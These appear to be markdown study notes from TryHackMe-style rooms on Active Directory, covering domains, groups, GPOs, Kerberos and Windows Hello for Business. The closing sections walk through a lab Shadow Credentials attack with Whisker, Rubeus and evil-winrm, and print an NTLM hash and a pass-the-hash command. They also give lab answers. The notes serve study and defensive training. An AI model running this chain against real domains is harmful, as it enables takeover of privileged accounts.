








# Active Directory Basics

## Learning Objectives 

In this room, we will learn about Active Directory and will become familiar with the following topics

    What Active Directory is
    What an Active Directory Domain is
    What components go into an Active Directory Domain
    Forests and Domain Trust

## What Is Active Directory?

Active Directory (AD) is a Microsoft directory service that organizes users, computers, servers, groups, and other network objects into a managed identity environment. At scale, AD is commonly structured as domains, trees, and forests, allowing organizations to centralize authentication, authorization, policy enforcement, and resource access.

For cybersecurity work, Active Directory is critical because it is often the core identity system. If AD is misconfigured or compromised, an attacker may gain access to users, endpoints, servers, domain controllers, and privileged resources across the enterprise.

## Why Use Active Directory?

Active Directory allows organizations to centrally control and monitor user access to computers and resources through domain controllers. Instead of creating separate local accounts on every workstation, AD lets a user sign in to domain-joined machines and access authorized files, folders, services, and local resources.

Operationally, AD provides:

- Centralized user and computer management.
- Centralized authentication and authorization.
- Centralized security policy enforcement.
- Resource access control across domain-joined systems.
- A scalable identity foundation for enterprise environments.

## Windows Domains

A Windows domain is a group of users, computers, and other devices administered under a common organizational boundary.

| Concept | Meaning | Security / Operations Use |
|---|---|---|
| **Active Directory** | Central repository for common Windows network components. | Provides the identity and policy foundation analysts must understand during investigations. |
| **Domain Controller (DC)** | Server running Active Directory Domain Services. | Authenticates users, authorizes access, and stores sensitive domain data. |
| **Centralized Identity Management** | User and device identities are managed in one place. | Reduces local-account sprawl and gives defenders a central point for control and auditing. |
| **Security Policy Management** | Policies are managed in AD and applied across the network. | Allows baseline enforcement, but misconfigured policies can also weaken the domain. |

## Active Directory Domain Services (AD DS)

AD DS is the directory service that stores information about domain objects and enables authentication, authorization, and policy-based management. In practical terms, AD DS is the identity control plane for a Windows domain.

### Security Principals

Security principals are AD objects that can be authenticated by the domain and assigned permissions over resources.

| Security Principal | Meaning | Rapid Reference |
|---|---|---|
| **Users** | Human user accounts. | Used for interactive logon, resource access, and role-based permissions. |
| **Service Accounts** | Accounts used by services. | Should be limited to only the privileges required by the service. High-privilege service accounts are common attack targets. |
| **Machine Accounts** | Computer identities in the domain. | Have limited domain rights and are local administrators on their assigned computers. Passwords are typically long, random, and automatically rotated. |
| **Security Groups** | Containers of users, computers, and other groups. | Used to grant permissions at scale. Group membership is a major investigation and privilege-review target. |

### Default Security Groups

| Group | Purpose / Privilege | SOC / Security Meaning |
|---|---|---|
| **Domain Admins** | Administrative privileges over the entire domain. | Highest-value group in many AD environments. Monitor membership changes closely. |
| **Server Operators** | Can administer domain controllers but cannot change administrative group memberships. | Powerful role; misuse can affect DC operations. |
| **Backup Operators** | Can access files while bypassing normal file permissions for backup purposes. | Sensitive because backup rights can expose protected data. |
| **Account Operators** | Can create or modify accounts in the domain. | Watch for account creation, enablement, password reset, and group-membership changes. |
| **Domain Users** | Contains all user accounts in the domain. | Broad group; usually not privileged by itself. |
| **Domain Computers** | Contains all computer accounts in the domain. | Useful for scoping domain-joined assets. |
| **Domain Controllers** | Contains all domain controllers in the domain. | Critical asset group; compromise has domain-wide impact. |

## Physical Active Directory

Physical Active Directory refers to the actual systems that make the AD environment work: domain controllers, storage servers, domain-joined workstations, and other supporting infrastructure. For defenders, physical placement and role separation matter because different systems carry different risk levels.

### Domain Controllers

A domain controller is a Windows Server with AD DS installed and promoted to domain-controller status in the forest. Domain controllers are the center of AD operations because they authenticate users, authorize access, replicate directory updates, and allow administrators to manage domain resources.



Key domain-controller responsibilities:

- Store the AD DS data store.
- Perform authentication and authorization.
- Replicate updates with other domain controllers in the forest.
- Support administrative access to domain resources.

**Security meaning:** Domain controllers are among the most sensitive Windows systems. Their compromise can expose credential material, domain configuration, and administrative control paths.

### AD DS Data Store

The AD DS data store contains the databases and processes needed to store and manage directory information for users, groups, services, and other objects.

| Item | Meaning | Security Importance |
|---|---|---|
| `NTDS.dit` | Database containing domain-controller information and domain user password hashes. | High-value credential target. Protect DCs and backups containing this file. |
| Default location | `%SystemRoot%\NTDS` | Useful when validating DC configuration or investigating unauthorized access. |
| Access scope | Accessible only by the domain controller. | Unexpected access attempts are high-risk events. |

## Active Directory Users and Computers

Active Directory Users and Computers organizes domain objects into containers and organizational units. For operations and security, this structure determines how policies are applied, how permissions are delegated, and how administrators manage identities and systems.

### Common Containers and OUs

| Container / OU | Purpose | Operational Meaning |
|---|---|---|
| **Organizational Units (OUs)** | Containers for classifying users and machines. | Used to apply policies to related users or computers. Users can only be in one OU at a time. |
| **Builtin** | Default groups available to Windows hosts. | Contains built-in administrative and operational groups. |
| **Computers** | Default location for machines joining the domain. | New computers may need to be moved to the proper OU for policy application. |
| **Domain Controllers** | Default OU for all DCs. | Highly sensitive; DC GPOs should be tightly controlled. |
| **Users** | Default users and domain-wide groups. | Common location for default domain accounts and groups. |
| **Managed Service Accounts** | Service accounts used by domain services. | Important for service identity and least-privilege management. |

### Users Overview

Users are central to AD because they represent the identities used to access domain resources. The practical security question is not simply whether a user exists, but what privileges, group memberships, delegation rights, and logon permissions the account has.

| User Type | Description | Security Meaning |
|---|---|---|
| **Domain Admins** | Administrators with control over the domain. | Highest-risk user class. Monitor use and membership closely. |
| **Service Accounts** | Accounts paired with services such as SQL or other enterprise applications. | Should be rarely used interactively and tightly scoped. May become privileged depending on service needs. |
| **Local Administrators** | Users who can administer local machines. | Can affect endpoints and possibly other users on those endpoints, but should not automatically access DCs. |
| **Domain Users** | Everyday users. | Usually standard accounts, but local admin rights or group memberships can increase risk. |

## Managing Users in AD

User administration should follow least privilege and careful delegation. Routine helpdesk functions should not require full Domain Administrator rights.

Key operational notes:

- Deleting an OU may require enabling **Advanced Features** from the **View** menu and removing the OU protection setting from the OU properties.
- **Delegate Control** allows administrators to grant specific users limited rights over an OU, such as allowing IT Support to reset passwords without becoming Domain Administrators.

**Security meaning:** Delegation is powerful. Review delegated permissions because excessive rights over users, groups, or OUs can become privilege-escalation paths.

## Managing Computers

Computer organization should reflect system purpose and sensitivity.

| Computer Type | Use | Security Meaning |
|---|---|---|
| **Workstations** | Standard user endpoints. | Privileged users should not sign in to ordinary workstations because endpoint compromise can expose privileged credentials. |
| **Servers** | Provide services to users and other servers. | Should be segmented and administered carefully based on service criticality. |
| **Domain Controllers** | Host AD DS and domain authentication functions. | Most sensitive Windows systems because they contain hashed passwords and domain control data. |

## Groups Overview

Groups simplify permissions by allowing access to be assigned to collections of users and objects rather than to individual accounts one at a time.

| Group Type | Purpose | Security Meaning |
|---|---|---|
| **Security Groups** | Assign permissions to users, computers, or nested groups. | High-value for access control and privilege review. |
| **Distribution Groups** | Manage email distribution lists. | Less directly useful for permissions, but still useful during enumeration and organizational mapping. |

### Default Security Groups Quick Reference

| Group | Description | Defensive Focus |
|---|---|---|
| **Domain Controllers** | All domain controllers in the domain. | Monitor for changes and unauthorized additions. |
| **Domain Guests** | All domain guests. | Restrict and review if enabled. |
| **Domain Users** | All domain users. | Broad group; avoid granting sensitive permissions directly. |
| **Domain Computers** | Workstations and servers joined to the domain. | Useful for asset scoping. |
| **Domain Admins** | Designated administrators of the domain. | Critical privileged group. |
| **Enterprise Admins** | Designated administrators of the enterprise. | Forest-wide administrative risk. |
| **Schema Admins** | Administrators of the schema. | Changes can affect object definitions across AD. |
| **DNS Admins** | DNS Administrators group. | Can be security-sensitive because DNS affects name resolution and service discovery. |
| **DNS Update Proxy** | DNS clients allowed to perform dynamic updates for other clients. | Review carefully in DHCP/DNS environments. |
| **Allowed RODC Password Replication Group** | Accounts whose passwords may replicate to read-only DCs. | Important for branch office and RODC exposure control. |
| **Denied RODC Password Replication Group** | Accounts whose passwords cannot replicate to RODCs. | Helps protect sensitive accounts from RODC exposure. |
| **Group Policy Creator Owners** | Can modify Group Policy for the domain. | GPO control can become domain-wide configuration control. |
| **Protected Users** | Receives additional authentication protections. | Use for high-risk or privileged accounts where appropriate. |
| **Cert Publishers** | Can publish certificates to the directory. | Certificate-related privileges deserve review. |
| **Read-Only Domain Controllers** | RODCs in the domain. | Lower-risk DCs, but still security-sensitive. |
| **Enterprise Read-Only Domain Controllers** | RODCs in the enterprise. | Enterprise scope. |
| **Key Admins** | Can perform administrative actions on key objects in the domain. | Important for key and certificate-related security. |
| **Enterprise Key Admins** | Can perform administrative actions on key objects in the forest. | Forest-wide key-management risk. |
| **Cloneable Domain Controllers** | DCs that may be cloned. | Review only where DC cloning is intentionally used. |
| **RAS and IAS Servers** | Servers that can access remote access properties of users. | Relevant to remote access and network authentication. |

## Group Policies

Group Policy Objects (GPOs) are collections of configuration settings applied to users and computers, often through OUs. GPOs are used to establish baselines, enforce security settings, and standardize endpoint and server behavior.

| GPO Concept | Meaning | Security / Operations Use |
|---|---|---|
| **GPO** | Collection of settings applied to users or computers. | Enforces baselines such as password policy, firewall settings, and security configuration. |
| **Group Policy Management** | Tool that lists the OU hierarchy and manages policies. | Main administrative interface for GPO review and linking. |
| **GPO linking** | GPOs are created under **Group Policy Objects** and linked to OUs. | A GPO only matters where it is linked and applied. |
| **SYSVOL distribution** | GPOs are distributed through SYSVOL on domain controllers. | Policy changes may take time to replicate and apply. |
| **Immediate refresh** | `gpupdate /force` | Forces a system to refresh Group Policy immediately. |

```powershell
gpupdate /force
```

**Security meaning:** GPOs can strengthen or weaken the domain. A defensive GPO can enforce secure baselines, but a malicious or misconfigured GPO can disable protections, change logon behavior, deploy scripts, or create persistence.

### Domain Policies Overview

Domain policies act like a rulebook for Active Directory. They define how systems and users behave across the domain. Domain administrators can modify default policies or create custom GPOs.

Examples from the source:

| Policy Example | Meaning | Security Impact |
|---|---|---|
| **Disable Windows Defender** | Disables Windows Defender across domain machines. | High-risk if misused; can remove endpoint protection. |
| **Digitally Sign Communication (Always)** | Can control SMB signing behavior on the domain controller. | Affects resistance to certain relay and tampering scenarios. |

## Active Directory Domain Services and Authentication

AD domain services provide the core functions of an AD network, including domain management, certificates, LDAP-based directory access, DNS-related services, and authentication.

### Domain Services Overview

| Service | Purpose | Security / Operations Meaning |
|---|---|---|
| **LDAP** | Lightweight Directory Access Protocol; supports communication between applications and directory services. | Commonly used for directory queries and identity-aware applications. |
| **Certificate Services** | Allows creation, validation, and revocation of public key certificates. | Misconfigurations can enable certificate-based privilege abuse. |
| **DNS, LLMNR, NBT-NS** | Name resolution services for hostnames and IP addresses. | Name-resolution weaknesses can support spoofing, interception, or credential-capture paths. |

### Domain Authentication Overview

Authentication is one of the most important and vulnerable parts of Active Directory. The source highlights two main authentication mechanisms:

| Method | Description | Security Meaning |
|---|---|---|
| **Kerberos** | Default AD authentication service in recent versions; uses ticket-granting tickets and service tickets. | Central to domain authentication, delegation, and many AD attack paths. |
| **NTLM / NetNTLM** | Legacy Windows challenge/response authentication kept for compatibility. | Older and often riskier. Review where it remains enabled or required. |

## Authentication Methods

Kerberos is the default protocol in modern AD environments. NetNTLM remains for compatibility, which means defenders should understand both the preferred authentication path and the legacy fallback path.

## Kerberos Authentication

Kerberos uses tickets to prove that a user previously authenticated. This reduces the need to repeatedly send credentials and allows users to request access to specific services.

### Kerberos Flow Quick Reference

| Step | Action | Meaning |
|---:|---|---|
| 1 | The user authenticates and receives a ticket. | The ticket becomes proof of prior authentication. |
| 2 | The username and timestamp are encrypted with a key derived from the user's password. | The Key Distribution Center (KDC) can validate the request. |
| 3 | The client sends the encrypted authentication data to the KDC, usually on the domain controller. | The KDC is central to Kerberos authentication. |
| 4 | The KDC builds a Ticket Granting Ticket (TGT) using the `krbtgt` account password hash. | The user cannot read the TGT contents; the KDC creates but does not keep the session key. |
| 5 | The KDC returns the TGT and session key to the client. | The client can request tickets for specific services. |
| 6 | The user requests a Ticket Granting Service (TGS) from the KDC. | The request includes the TGT, timestamp, username, session-key encryption, and Service Principal Name (SPN). |
| 7 | The KDC returns a TGS and service session key. | The TGS is encrypted with a key derived from the service owner's account hash. |
| 8 | The client sends the TGS to the service owner. | The service decrypts the TGS with its own account hash and validates the session key. |

**Security meaning:** Kerberos investigation often requires understanding which account requested a TGT, which SPN received a TGS request, and whether service tickets or delegation behavior are abnormal.

## Domain Trusts Overview

Trusts allow users in one domain to access resources in another domain. They define how domains inside a forest, or sometimes external domains and forests, communicate and share access.



| Trust Type | Meaning | Security Meaning |
|---|---|---|
| **Directional** | Trust flows from a trusting domain to a trusted domain. | The direction determines which users can access resources. |
| **Transitive** | Trust expands beyond two domains to include other trusted domains. | Can widen lateral movement paths if not understood and controlled. |

**Security meaning:** Trusts are important during AD defense and incident response because compromise in one domain may create access paths into another domain, depending on trust direction and transitivity.

## Trees

A tree segments a single domain structure into multiple domains. Trees are useful when different parts of an enterprise need significantly different policies, legal requirements, or administrative boundaries.

Operational reasons to use trees:

- Accommodate different GPO requirements.
- Support regional or regulatory differences.
- Reduce OU complexity.
- Reduce human error caused by overly complex OU designs.
- Allow branch domains to control their own administrative scope.

A top-level domain becomes the enterprise root, and the **Enterprise Admins** group can grant administrative privileges across branch domains. Each branch retains control over its domain but not necessarily over other branches.

## The Forest

A forest is the union of one or more domain trees in an AD network. It defines the overall AD boundary that connects domains and trees together.



Forests commonly appear when companies merge, one company acquires another, or multiple domain trees must be connected under one AD structure.

### Forest Overview

| Forest Component | Meaning | Security Meaning |
|---|---|---|
| **Trees** | Hierarchy of domains in AD DS. | Defines domain structure and administrative boundaries. |
| **Domains** | Used to group and manage objects. | Common scope for authentication, policy, and administration. |
| **Organizational Units (OUs)** | Containers for groups, computers, users, printers, and other OUs. | Primary structure for policy application and delegated administration. |
| **Trusts** | Allows users to access resources in other domains. | Can create cross-domain access paths. |
| **Objects** | Users, groups, printers, computers, shares, and other resources. | Core entities investigated during AD enumeration and incident response. |
| **Domain Services** | DNS Server, LLMNR, IPv6, and related services. | Supports identity and network operations. |
| **Domain Schema** | Rules for object creation. | Defines what objects and attributes exist in AD. |

## Active Directory Enumeration

AD enumeration is the process of collecting information about users, groups, domains, OUs, privileges, and relationships. In authorized assessments and defensive validation, enumeration helps identify exposure, misconfiguration, and potential escalation paths.

For SOC and defensive work, enumeration output is useful because it shows which identities exist, how they are organized, and which permissions may be dangerous.

### PowerShell User Enumeration

The source uses PowerShell to enumerate AD users and groups. The key operational point is that `Get-ADUser` requires a `-Filter` argument.



```powershell
Get-ADUser -Filter *
```

### Distinguished Names and SearchBase

A Distinguished Name (DN) is a comma-separated set of key-value pairs that uniquely identifies an object in the directory. Common components include:

| DN Component | Meaning | Example |
|---|---|---|
| `DC` | Domain Component | `DC=thmredteam,DC=com` |
| `OU` | Organizational Unit | `OU=THM` |
| `CN` | Common Name | `CN=Users` or `CN=User1` |

Example DN:

```text
CN=User1,CN=Users,DC=thmredteam,DC=com
```



The `SearchBase` option limits the query to a specific part of the directory tree.



```powershell
Get-ADUser -Filter * -SearchBase "OU=THM,DC=thmredteam,DC=com" | Measure-Object
```

### AD Enumeration Lab Answers

| Question | Answer / Note |
|---|---|
| How many users are available in the `THM` OU? | `6` |
| What is the `UserPrincipalName` of the admin account? | `thmadmin@thmredteam.com` |

## Active Directory in the Cloud

Organizations have increasingly shifted identity services toward cloud-based environments. The source identifies Azure AD as the most notable AD cloud provider. Azure AD can provide more secure defaults than many on-premises AD environments, but cloud identity still requires careful configuration and monitoring.

### Azure AD Overview

Azure AD acts as a sign-on layer between users and cloud or hybrid identity resources. In a hybrid model, Azure AD can connect with on-premises Active Directory and provide a modern authentication path.



**Security meaning:** Cloud identity can reduce exposure to some traditional on-premises AD attacks, but misconfigured permissions, applications, federation, guests, and authentication methods can still create risk.

### Cloud Security Overview

| Windows Server AD | Azure AD |
|---|---|
| LDAP | REST APIs |
| NTLM | OAuth / SAML |
| Kerberos | OpenID |
| OU Tree | Flat structure |
| Domains and forests | Tenants |
| Trusts | Guests |

This comparison is useful because it shows that cloud identity is not simply on-premises AD moved into the cloud. The concepts, protocols, and management boundaries differ.

## Windows Hello for Business (WHfB)

Windows Hello for Business is a modern authentication approach that can replace conventional password-based authentication. It uses cryptographic keys for user verification and can support PIN or biometric sign-in.

### WHfB Key Concepts

| Concept | Meaning | Security Meaning |
|---|---|---|
| **Public / private key pair** | User authentication is tied to cryptographic keys. | The private key should remain protected and not leave the Trusted Platform Module (TPM). |
| **TPM** | Generates and protects the user's public-private key pair during enrollment. | Reduces exposure of secrets compared to reusable passwords. |
| **Certificate Authority (CA)** | Issues a trustworthy certificate after client request. | Certificate issuance and template controls must be secured. |
| **`msDS-KeyCredentialLink`** | AD attribute storing the public key for WHfB enrollment. | If an attacker can modify this attribute on a vulnerable user object, the account can be compromised through a Shadow Credentials-style attack. |

### WHfB Enrollment Flow

| Step | Action | Meaning |
|---:|---|---|
| 1 | TPM generates a public-private key pair for the user account during enrollment. | The private key stays in the TPM and is not disclosed. |
| 2 | The client requests a certificate from the organization's issuing CA. | The CA validates and provides a trusted certificate. |
| 3 | AD stores the public key in the user's `msDS-KeyCredentialLink` attribute. | The domain can later use this public key during authentication. |

### WHfB Authentication Flow

| Step | Action | Meaning |
|---:|---|---|
| 1 | The domain controller decrypts client pre-authentication data using the raw public key stored in `msDS-KeyCredentialLink`. | This validates that the client possesses the matching private key. |
| 2 | The domain controller creates a certificate for the user and returns it to the client. | The client obtains material needed for domain authentication. |
| 3 | The client logs in to the AD domain using the certificate. | Authentication succeeds without relying on a traditional password prompt. |



## Shadow Credentials Misconfiguration: Enumeration

> **Authorized-use note:** The following section summarizes lab-oriented content from the source. Treat these steps as defensive validation or authorized training material only.

A dangerous misconfiguration exists when a user has write capability over another user object in a way that allows modification of `msDS-KeyCredentialLink`. In the source scenario, the objective is to identify whether the current user has write privileges over another user and could abuse that access to add a malicious key credential.

### Enumeration Goal

Find abusable privileges, especially write privileges, for the current user.

| Item | Value from Source |
|---|---|
| Current user being filtered | `hr` |
| Privilege of interest | Write capability, especially `GenericWrite` |
| Sensitive target attribute | `msDS-KeyCredentialLink` |
| Attack name described by source | Shadow Credentials attack |

### PowerView Enumeration Workflow

```powershell
cd C:\Users\hr\Desktop
powershell -ep bypass
. .\PowerView.ps1
Find-InterestingDomainAcl -ResolveGuids
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" }
Find-InterestingDomainAcl -ResolveGuids | Where-Object { $_.IdentityReferenceName -eq "hr" } | Select-Object IdentityReferenceName, ObjectDN, ActiveDirectoryRights
```

The important fields are:

| Field | Meaning |
|---|---|
| `IdentityReferenceName` | User or principal holding the right. |
| `ObjectDN` | Target directory object affected by the right. |
| `ActiveDirectoryRights` | Permission assigned to the principal. |

**Rapid interpretation:** If a low-privileged or unexpected user has `GenericWrite` over a privileged or otherwise valuable account, defenders should investigate immediately. That permission can support account takeover paths when certificate or key-credential attributes are writable.

## Shadow Credentials Misconfiguration: Exploitation Flow

The source demonstrates a lab chain where a vulnerable account can be compromised by writing to `msDS-KeyCredentialLink`, requesting a Kerberos TGT with certificate material, extracting an NTLM hash, and then using that hash for remote access.

### Lab Tool Chain Summary

| Tool | Purpose in Source | Security Meaning |
|---|---|---|
| **PowerView** | Enumerates ACLs and identifies abusable AD rights. | Useful for finding dangerous delegated permissions. |
| **Whisker** | Simulates malicious device enrollment by updating `msDS-KeyCredentialLink`. | Demonstrates how write access to key-credential attributes can compromise an account. |
| **Rubeus** | Requests a Kerberos TGT using certificate material and can display NTLM hash output. | Shows certificate-to-Kerberos abuse and credential extraction in the lab. |
| **Evil-WinRM** | Uses the NTLM hash to connect over WinRM. | Demonstrates pass-the-hash remote access in the lab. |

### Whisker Step

```powershell
.\Whisker.exe add /target:Administrator
```

Replace `Administrator` with the vulnerable user identified during enumeration.

### Rubeus Step

The source indicates that Whisker provides a ready-to-run Rubeus command. The operational meaning is that the generated certificate and password are used to request a TGT for the vulnerable user.

```powershell
Rubeus.exe asktgt /user:Administrator /certificate:<certificate_blob_from_whisker> /password:"<certificate_password>" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```

#### Rubeus Parameter Quick Reference

| Parameter | Meaning |
|---|---|
| `asktgt` | Requests a Ticket Granting Ticket. |
| `/user` | User to impersonate for the TGT request. |
| `/certificate` | Certificate generated to impersonate the target user. |
| `/password` | Password used to decode the encrypted certificate. |
| `/domain` | Target domain. |
| `/dc` | Domain controller that will generate the TGT. |
| `/getcredentials` | Retrieves the NTLM hash for use in the next step. |
| `/show` | Displays output in the console. |

### Rubeus Output Item of Interest

The key output in the source example is the NTLM hash line:

```text
NTLM : F138C405BD9F3139994E220CE0212E7C
```

### Evil-WinRM Step

```bash
evil-winrm -i 10.10.206.178 -u Administrator -H F138C405BD9F3139994E220CE0212E7C
```

| Parameter | Meaning |
|---|---|
| `-i` | Target IP address. |
| `-u` | User account. |
